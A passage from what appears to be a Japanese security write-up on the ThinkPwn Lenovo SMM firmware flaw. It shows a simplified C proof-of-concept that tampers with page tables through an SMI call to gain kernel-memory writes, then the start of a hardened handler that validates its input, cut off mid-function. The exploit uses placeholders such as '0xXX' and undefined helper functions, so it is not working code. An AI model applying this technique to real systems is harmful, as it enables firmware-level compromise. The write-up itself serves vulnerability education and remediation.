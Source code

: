 ```mermaid
```

#### 攻撃コード（PoC）

```c
// ThinkPwn exploit (simplified)
#include <ntddk.h>

typedef struct {
  UINT32  FunctionCode;
  UINT64  DestAddress;     // 書き込み先
  UINT64  SourceData;      // 書き込むデータ
  UINT32  DataSize;
} RUNTIME_FUNCTION_PARAM;

VOID ExploitThinkPwn(VOID) {
  RUNTIME_FUNCTION_PARAM  *Param;
  UINT64                  Cr3Value;

  // 1. CommBuffer を OS メモリに確保
  Param = AllocatePool(sizeof(RUNTIME_FUNCTION_PARAM));

  // 2. CR3 レジスタのアドレスを取得（物理アドレス）
  Cr3Value = __readcr3();

  // 3. ページテーブルを細工したデータを準備
  UINT64 MaliciousPageTable = PrepareMaliciousPageTable();

  // 4. SMI パラメータを設定
  Param->FunctionCode = RUNTIME_FUNCTION_SET_VARIABLE;
  Param->DestAddress  = 0x1000;  // CR3 が指すページテーブルエントリ
  Param->SourceData   = MaliciousPageTable;
  Param->DataSize     = 8;

  // 5. CommBuffer のアドレスを共有メモリに設定
  WriteToSmmCommunicationRegion(Param);

  // 6. SMI をトリガー
  __outbyte(0xB2, 0xXX);  // Lenovo 固有の SMI コマンド

  // 7. ページテーブルが改竄され、カーネルメモリに書き込み可能に
  WriteToKernelMemory(TARGET_ADDRESS, PAYLOAD, SIZE);
}
```

### 修正方法

```c
// SystemSmmRuntimeRt.c（修正版）
EFI_STATUS
EFIAPI
SecureSmmRuntimeHandler (
  IN     EFI_HANDLE  DispatchHandle,
  IN     CONST VOID  *Context OPTIONAL,
  IN OUT VOID        *CommBuffer OPTIONAL,
  IN OUT UINTN       *CommBufferSize OPTIONAL
  )
{
  RUNTIME_FUNCTION_PARAM  *Param;
  RUNTIME_FUNCTION_PARAM  LocalParam;
  EFI_STATUS              Status;

  // 1. CommBuffer 検証
  if (CommBuffer == NULL || CommBufferSize == NULL) {
```